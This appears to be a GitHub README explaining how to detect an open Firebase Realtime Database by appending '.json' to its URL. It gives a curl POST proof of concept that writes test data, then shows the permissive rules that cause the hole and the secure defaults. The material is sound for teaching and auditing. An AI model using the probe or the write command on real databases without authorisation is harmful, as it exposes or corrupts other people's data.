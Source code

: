 # Insecure-Firebase

Add '.json' at the end of firebase database url 

For example: https://insecure-firebase.firebaseio.com/.json

If you see `null` in reponse that means the firebase database is insecure and anyone can read and insert the data in 
the database

## POC
```
curl -X POST https://insecure-firebase.firebaseio.com/testing.json \
-d '{"cat": "meow", "dog": "bowbow"}'
```
Now visit https://insecure-firebase.firebaseio.com/testing.json or https://insecure-firebase.firebaseio.com/.json

and you will see new data is added to database



## firebase rules configuration which leads to this vulnerability

```
{
  /* Visit https://firebase.google.com/docs/database/security to learn more about security rules. */
  "rules": {
    ".read": true,
    ".write": true
  }
}
```
As you can see in the above configuration both read and write set to true which means anyone can read and write to
this firebase database developer some times use this settings for testing purpose but letter forgets to change this
to only allow app users to read or write data.

## Default(secure) firebase rules configuration 

```
{
  /* Visit https://firebase.google.com/docs/database/security to learn more about security rules. */
  "rules": {
    ".read": false,
    ".write": false
  }
}
```
